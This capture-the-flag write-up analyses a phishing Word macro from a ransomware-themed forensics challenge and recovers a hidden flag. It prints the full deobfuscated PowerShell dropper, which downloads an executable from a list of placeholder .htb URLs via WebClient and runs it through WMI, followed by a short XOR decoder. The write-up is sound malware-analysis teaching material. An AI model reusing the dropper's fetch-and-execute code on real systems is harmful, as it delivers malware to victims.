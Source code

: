 <h1>
    emo - Forensics, 40pts
</h1>

<h2>
    Claim: This is the first time I dealt with macro analysis and Powershell analysis. Without some keywords from the forum, I wouldn't be able to solve it. Nice challenge though!  
</h2>

<h2>
    Description
</h2>

WearRansom ransomware just got loose in our company. The SOC has traced the initial access to a phishing attack, a Word document with macros. Take a look at the document and see if you can find anything else about the malware and perhaps a flag.
<h2>
    Solution
</h2>

- As the question suggests, we are given a document containing malicous macro. At first, I tried to dump the source code of macro in the document using <code>olevba</code>. However, it had been obfuscated and I had no experience with Powershell analysis so it was very hard to understand the code.
 
![](https://i.imgur.com/CX405Gu.png)

- After spending lots of time on it, I decided to do dynamic analysis. Therefore, I used online sandbox to open and run the file to see what can it do.  

![](https://i.imgur.com/WxyrU5A.png)

- There were 2 processes spawn from the moment I opened the doc. The most malicious one was obviously the hidden <code>powershell.exe</code> which containing encoded payload.(The <code>conhost</code> process just checked the registry key to check the LSA protection)

![](https://i.imgur.com/NVXilIA.png)

- I used cyberchef to decode it. And it was another obfuscated script

![](https://i.imgur.com/DOAV4kJ.png)

- After beautified and deobfuscated it mannually, this is the full script. Basically, this script creates a directory in the home directory, downloads something from those URLs and spawns process. 
```
 SV  0zX ([TyPe]("sYsteM.IO.dIrECtorY")  ) ;
   
set  TxySeo  (  [TYpe]("SYsTEM.NeT.seRVICEpOINTMANaGER")) ;
  
$Nbf5tg3='B9yp90s';

$Vxnlre0=$Cludkjx + '@' + $R6r1tuy;

$Ky3q0e8='Rqdxwo5';

  (  Dir  vaRiAble:0Zx).valuE::"CreATEdIREcTOrY"($HOME + '\Jrbevk4\Ccwr_2h\');

$FN5ggmsH = (182,187,229,146,231,177,151,149,166);

$Pyozgeo='J5fy1cc';

 (  vaRiABLE TxYSEo  ).ValuE::"SecUrITYpROtOcol" = 'Tls12';

$FN5ggmsH += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228);

$Huajgb0='Jno5ga1';

$Bb28umo = 'Ale7g_8';


$Hsce_js='Kvnbov_';

$Spk51ue='C7xo9gl';


$Scusbkj=$HOME+'\Jrbevk4\Ccwr_2h\.exe';

$FN5ggmsH += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139);

$hbmskV2T='C7xo9gl';

$hbmskV2T=$HOME+'\Jrbevk4\Ccwr_2h\.conf';

$Q1_y05_='W4qvyz8';

$Odb3hf3=&'new-object' Net.WEBclIENt;

$FN5ggmsH += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229);

$Anbyt1y='http://da-industrial.htb/js/9IdLP/@WgWhttp://daprofesional.htb/data4/hjTV/@https://dagranitegiare.htb/wp-admin/tV/@http://www.outspokenvisions.htb/wp-includes/aWoM/@http://mobsouk.ht
b/wp-includes/UY30R/@http://biglaughs.htb/smallpotatoes/Y/@https://ngllogistics.htb/adminer/W3mkB/';
  
$Gcoyvlv='Kf_9et1';
foreach ($A8i3ke1 in $Anbyt1y){
	try {
		$Odb3hf3."dOWnLOAdfILe"($A8i3ke1, $Scusbkj);
		$Zhcnaux='Ekkj47t';
		If ((&'Get-Item' $Scusbkj)."LEnGTh" -ge 45199) {${A8I3KE1}.('ToCharArray').Invoke() | .('ForEach-Object') -process 				{ 
			${FN5GGmSh} += ([byte][char]${_} -bxor 0xdf ) 
		};
 		$FN5ggmsH += (228);
 		$b0Rje =  [type]('ConVerT');
   		$B0RjE::"tOBaSE64STRINg"(${fn5ggmsh}) | .('out-file') ${hBmSKV2T};
 		([wmiclass]('win32_Process'))."cReaTE"($Scusbkj);
		$Glwki6a='Imtdxv6';
		break;
		$Pfpblh1='Vslalcu'
		}
	}catch{}
	}
$F47ief2='Bnzidrt'
```
- At this point, I got stuck. I had checked the URLs but none of them was alive. While I seeked for some hints in the forum, there was a comment about <b>"delete all the junks to see what the real thing this script did"</b>. I realised that there was a remaining obfuscated layer in the code itself, not the format of the code.
- I rewrited and modified the code to this script:
```
$list = (182,187,229,146,231,177,151,149,166);

$list += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228);

$list += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139);

$list += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229);


  
$result=("");


foreach ($t in $list){
	try {
		${result}+= [char](${t} -bxor 0xdf ) 
		
	}catch{}
	}
Write-Output $result;
```
- Execute and we got the flag

![](https://i.imgur.com/YUlQyy6.png)
